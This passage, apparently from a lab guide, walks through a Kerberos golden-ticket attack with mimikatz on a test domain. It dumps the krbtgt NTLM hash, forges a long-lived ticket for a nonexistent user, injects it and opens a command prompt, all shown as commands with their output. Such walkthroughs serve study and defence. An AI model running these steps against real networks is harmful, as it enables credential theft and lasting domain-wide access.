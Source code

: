 ## 5.2. Using mimikatz

### 5.2.1. Retrieve krbtgt password hash

```cmd
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : LAB / S-1-5-21-1470288461-3401294743-676794760
⋮
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 3ac4cccaca955597db0d11a7ffa50025
⋮
```

### 5.2.2. Create golden ticket

- This can be performed on any domain member machine, without administrator rights
- The `misc::cmd` command opens a command prompt session with the golden ticket injected to that session

> [!Important]
>
> Run `kerberos::purge` even if `klist` show zero cached tickets

```cmd
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:nonexistentuser /domain:lab.vx /sid:S-1-5-21-1470288461-3401294743-676794760 /krbtgt:3ac4cccaca955597db0d11a7ffa50025 /ptt
User      : nonexistentuser
Domain    : lab.vx (LAB)
SID       : S-1-5-21-1470288461-3401294743-676794760
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 3ac4cccaca955597db0d11a7ffa50025 - rc4_hmac_nt
Lifetime  : 23/4/2022 4:05:49 pm ; 20/4/2032 4:05:49 pm ; 20/4/2032 4:05:49 pm
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'nonexistentuser @ lab.vx' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6FF396438
```
